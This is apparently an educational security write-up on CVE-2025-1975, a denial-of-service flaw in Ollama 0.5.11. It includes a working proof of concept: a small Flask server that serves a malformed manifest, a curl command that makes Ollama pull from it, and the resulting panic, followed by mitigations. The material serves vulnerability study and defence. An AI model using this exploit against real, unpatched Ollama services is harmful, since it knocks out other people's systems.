




# Ollama DoS - Denial of Service via Malformed Manifest

**Author:** Teodora Demerdzhieva   
**Topic:** LLM Security - Supply Chain, Vulnerable Dependencies, Denial of Service  

---

## Overview

This documents CVE-2025-1975, a denial of service vulnerability in Ollama 0.5.11. The vulnerability exists in the manifest parsing code when downloading models from remote servers. A malformed manifest with unexpected array structure causes Ollama to panic and crash, rendering the service unavailable.

This is a supply chain vulnerability which affects all users of the vulnerable version regardless of how they configure their deployments.

---

## Target

```
Application : Ollama 0.5.11
Service     : Model pulling/downloading
Goal        : Crash the Ollama service via malformed manifest
```

---

## 1. Vulnerability Details

Ollama does not properly validate array sizes when parsing model manifest files. A manifest with an empty layer object causes a panic when the code attempts to access expected data.

The vulnerable code tries to read data at a specific index without checking if that data exists first. An empty layer provides no data, resulting in an array bounds error.

---

## 2. Setup

Download vulnerable Ollama 0.5.11 and start an instance:

```bash
wget https://github.com/ollama/ollama/releases/download/v0.5.11/ollama-linux-amd64.tgz
tar -xzf ollama-linux-amd64.tgz
cd ollama-linux-amd64/bin
./ollama serve
```


Create a Flask server that serves a malicious manifest. Save this to `server.py`:

```python
from flask import Flask

app = Flask(__name__)

@app.route("/v2/dos/model/manifests/latest")
def exploit():
    return {"layers": [{}]}

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```



Run the Flask server:

```bash
python3 server.py
```



---

## 3. Triggering the Exploit

Instruct Ollama to pull a model from the malicious Flask server:

```bash
curl -X POST -H 'Content-Type: application/json' \
  -d '{"model": "http://localhost:5000/dos/model", "insecure": true}' \
  http://localhost:11434/api/pull
```



---

## 4. Result

The Ollama service crashes with a panic error:

```
panic: runtime error: slice bounds out of range [:19] with length 0

```



The service is no longer responding. Any requests to Ollama fail until it is manually restarted.

In the Flask server logs, the request is visible before the crash:

```
127.0.0.1 - - [22/Jun/2026 04:22:16] "GET /v2/dos/model/manifests/latest HTTP/1.1" 200 -
```

---

## 5. Summary of Findings

| Finding | Severity | Impact |
|---------|----------|--------|
| Missing array bounds check in manifest parsing | High | Denial of service; server crash on malformed input |


---

## 6. Mitigations

- **Validate array sizes before access** - check that an array has expected data before attempting to read from it
- **Use safe parsing libraries** - high-level libraries often handle edge cases better than manual parsing
- **Add input validation** - validate manifest structure against an expected schema before processing
- **Keep dependencies updated** - apply security updates to Ollama as soon as they are released
- **Pin dependency versions** - specify exact versions to ensure reproducible deployments and control when updates are applied

---

## References

- [CVE-2025-1975 - Ollama DoS](https://nvd.nist.gov/vuln/detail/CVE-2025-1975)
- [MITRE ATLAS - Endpoint Denial of Service](https://attack.mitre.org/techniques/T1499/)
- [OWASP - Denial of Service](https://owasp.org/www-community/attacks/Denial_of_Service)
